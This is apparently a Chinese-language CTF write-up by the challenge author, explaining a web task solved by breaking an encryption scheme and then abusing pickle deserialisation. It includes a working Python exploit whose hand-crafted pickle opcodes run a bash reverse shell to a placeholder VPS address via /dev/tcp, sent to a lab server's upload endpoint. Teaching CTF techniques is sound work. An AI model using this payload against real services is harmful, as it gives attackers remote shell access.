

## 来自一年后的告白回复
这题其实不在计划中，只是群里一直有人喊着 Web 太简单，于是出了一道接近正式比赛难度的题。

总的考点就两步

1. 加密方案分析
2. pickle 反序列化

第一步其实非常简单，而且也给出提示解锁告白密码了，可以直接尝试去破解素数分解。

第二步的方法非常多样，毕竟 pickle 能做的事情实在是太多了。

### 解法一、变量覆盖
黑名单里这么多东西，利用 bytes 和 int 之间的转换来实现，这里直接用 test 同学的 wp



### 解法二、RCE
解法一是利用修改 session 实现变量覆盖的，作为一个优秀的 hacker，在获得 pickle 反序列化这么大的权限之后，怎么能不尝试 RCE 呢。

我们使用 subprocess 以及 run 功能来实现我们的 反弹 shell 功能，当然直接使用 reduce 也是可以的，毕竟没有限制 R 字节码的使用。

我在群里提到过，Web 也可以进行 shellcode 编程，其实暗示大家可以手写 pickle opcode 的字节码。说不定明年我就把 R 给 ban 了，毕竟真正的告白回复明年才会上线。

```python
import base64
import dis
import pickle

import requests
import pickletools
from sign import encrypt, decrypt

payload = b'''csubprocess
run
(]S'bash'
aS'-c'
aS'bash -i >& /dev/tcp/vps_ip/vps_port 0>&1'
atR0.
'''

opcode = b'\x80\x04\x959\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x04nemo\x94\x8c\nwin_streak\x94K\x02\x8c\x0ehighest_streak\x94J\xe8\x03\x00\x00u'
opcode += payload

url = "http://10.10.175.100:34497"
session = requests.Session()

session = requests.get(url=url)

# 加密数据
enc_data = encrypt(opcode)

r = requests.post(
    url=f"{url}/upload",
    files={
        ("file", ("test", enc_data))
    }
)

print(r.text)

```


